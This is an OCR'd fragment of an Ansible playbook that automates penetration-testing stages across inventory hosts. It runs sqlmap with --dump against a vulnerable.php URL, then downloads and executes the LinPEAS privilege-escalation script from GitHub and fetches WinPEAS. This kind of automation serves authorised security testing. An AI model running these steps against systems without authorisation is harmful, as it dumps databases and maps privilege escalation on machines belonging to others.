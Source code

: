 ```yaml
        dest: /tmp/enumeration_{{ inventory_hostname }}.txt

    # Exploitation
    - name: Install Exploitation Tools
      apt:
        name:
          - metasploit-framework
          - sqlmap
          - burpsuite
        state: present

    - name: Perform SQLmap Scan
      command: sqlmap -u "http://{{ inventory_hostname }}/vulnerable.php?id=1" --batch --dump
      register: sqlmap_output

    - name: Save Exploitation Outputs
      copy:
        content: |
          SQLmap Output:
          {{ sqlmap_output.stdout }}
        dest: /tmp/exploitation_{{ inventory_hostname }}.txt

    # Privilege Escalation
    - name: Download LinPEAS Script
      get_url:
        url: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
        dest: /tmp/linpeas.sh
        mode: '0755'

    - name: Run LinPEAS Script
      command: /tmp/linpeas.sh
      register: linpeas_output

    - name: Save LinPEAS Output
      copy:
        content: "{{ linpeas_output.stdout }}"
        dest: /tmp/linpeas_output_{{ inventory_hostname }}.txt

    - name: Download WinPEAS Script
      get_url:
        url: https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe
        dest: /tmp/winPEASx64.exe
        mode: '0755'

    - name: Save WinPEAS Note
      copy:
        content: |
          Note: WinPEAS needs to be executed manually on the target Windows machine.
        dest: /tmp/winpeas_note_{{ inventory_hostname }}.txt

```
